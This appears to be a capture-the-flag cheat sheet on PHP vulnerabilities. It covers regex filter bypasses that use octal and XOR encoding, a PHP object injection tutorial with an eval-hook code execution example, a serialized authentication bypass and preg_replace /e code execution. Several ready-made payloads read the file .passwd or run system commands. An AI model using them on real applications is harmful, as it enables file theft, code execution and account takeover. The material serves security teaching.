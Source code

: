 # PHP  vuln

## PHP regex bypass

- With octal encoder https://cryptii.com/pipes/text-octal

		file_get_contents(".passwd") -> "\146\151\154\145\137\147\145\164\137\143\157\156\164\145\156\164\163"("\056\160\141\163\163\167\144")

- xor operation

```python
import string
 
	if __name__ == "__main__":
    		s = string.printable[62:62+32] ##    !"#$%&'()*+,-./:;<=>?@[\]^_\`{|}~
    		s1 = string.printable[:62]     ##    0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
    		for i in s:
        		for j in s:
            			x = chr(ord(i)^ord(j))
            			if x in s1+'_':
                			print '{0}\t{1}\t{2}'.format(i,j,x)
```
	
	$_ = "@" ^ "!" //a
                            	
- Convert to phpnonalpha

	Open https://hackvertor.co.uk/public# and use phpnonalpha encoder

- Unicode encoder

		$_=("#"^"@").('('^'@').('2'^'@');  // 'c' + 'h' + 'r'
 		$__=$_(115).$_(121).$_(115).$_(116).$_(101).$_(109); // here system
		$___=$_(99).$_(97).$_(116)." .".$_(112).$_(97).$_(115).$_(115).$_(119).$_(100); //here cat .passwd
 		$__($___);

## PHP object

Serialization in PHP
To understand PHP object injections, you have to first understand how PHP serialize and deserialize objects.
Serializing
When you need to store a PHP object or transfer it over the network, you use serialize() to pack it up.
serialize(): PHP object -> plain old string that represents the obj
When you need to use that data, use unserialize() to unpack and get the underlying object.
unserialize(): string containing object data -> original object
For example, this code snippet will serialize the object “user”.

```php
<?php
	class User{
		public $username;
		public $status;
	}
	$user = new User;
	$user->username = 'vickie';
	$user->status = 'not admin';
	echo serialize($user);
?>

```
Run the code snippet, and you will get the serialized string that represents the “user” object.
	
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
Serialized string structure
Let’s break this serialized string down! The basic structure of a PHP serialized string is “data type: data”. For example, “b” represents a boolean.
	
	b:THE_BOOLEAN;
“i” represents an integer.
	
	i:THE_INTEGER;
“d” represents a float.
	
	d:THE_FLOAT;
“s” represents a string.
	
	s:LENTH_OF_STRING:"ACTUAL_STRING";
“a” represents an array.
	
	a:NUMBER_OF_ELEMENTS:{ELEMENTS}
And finally, “O” represents an object.
	
	O:LENTH_OF_NAME:"CLASS_NAME":NUMBER_OF_PROPERTIES:{PROPERTIES}
So we can see our serialized string here represents an object of the class “User”. It has two properties. The first property has the name “username” and the value “vickie”. The second property has the name “status” and the value “not admin”.
	
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
Deserializing
When you are ready to operate on the object again, you can deserialize the string with unserialize().

```php
<?php
	class User{
		public $username;
		public $status;
	}
	$user = new User;
	$user->username = 'vickie';
	$user->status = 'not admin';
	$serialized_string = serialize($user);
	$unserialized_data = unserialize($serialized_string);
	var_dump($unserialized_data);
	var_dump($unserialized_data["status"]);
?>
```
	
Unserialize() under the hood
So how does unserialize() work under the hood? And why does it lead to vulnerabilities?
What are PHP magic methods?

PHP magic methods are function names in PHP that have “magical” properties. Learn more about them here.

The magic methods that are relevant for us now are __wakeup() and __destruct(). If the class of the serialized object implements any method named __wakeup() and __destruct(), these methods will be executed automatically when unserialize() is called on an object.

Step 1: Object instantiation
Instantiation is when the program creates an instance of a class in memory. That is what unserialize() does. It takes the serialized string, which specifies the class and the properties of that object. With that data, unserialize() creates a copy of the originally serialized object.
It will then search for a function named __wakeup(), and execute code in that function. __wakeup() reconstructs any resources that the object may have. It is used to reestablish any database connections that have been lost during serialization and perform other reinitialization tasks.

Step 2: Program uses the object
The program operates on the object and uses it to perform other actions.

Step 3: Object destruction
Finally, when no reference to the deserialized object instance exists, __destruct() is called to clean up the object.
Exploiting PHP deserialization
When you control a serialized object that is passed into unserialize(), you control the properties of the created object. You might also be able to hijack the flow of the application by controlling the values passed into automatically executed methods like __wakeup() or __destruct().
This is called a PHP object injection. PHP object injection can lead to variable manipulation, code execution, SQL injection, path traversal, or DoS.
Controlling variable values
One possible way of exploiting a PHP object injection vulnerability is variable manipulation. For example, you can mess with the values encoded in the serialized string.
	
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
In this serialize string, you can try to change the value of “status” to “admin”, and see if the application grants you admin privileges.
	
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:5:"admin";}
Getting to RCE
It’s even possible to achieve RCE using PHP object injection! For example, consider this vulnerable code snippet: (taken from https://www.owasp.org/index.php/PHP_Object_Injection)

```php
class Example2
	{
	  private $hook;   
	  function __construct(){
	      // some PHP code...
	  }   
	  function __wakeup(){
	      if (isset($this->hook)) eval($this->hook);
	  }
	}
// some PHP code...
	$user_data = unserialize($_COOKIE['data']);
// some PHP code...
```

You can achieve RCE using this deserialization flaw because a user-provided object is passed into unserialize. And the class Example2 has a magic function that runs eval() on user-provided input.
To exploit this RCE, you simply have to set your data cookie to a serialized Example2 object with the hook property set to whatever PHP code you want. You can generate the serialized object using the following code snippet:

```php
class Example2
	{
	   private $hook = "phpinfo();";
	}
```
print urlencode(serialize(new Example2));
// We need to use URL encoding since we are injecting the object via a URL.

Bypass auth :

```php
<?php if($data['password'] == $password){
	$auth=True;
	}
?>
```

If we set the password not to a string but to '1' (True) it will work because str=True is True

	a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1;}
	
## PREG_REPLACE()

You can execute php code with the function preg_replace()

Pattern : /a/e

Replace : phpinfo();

Content : a
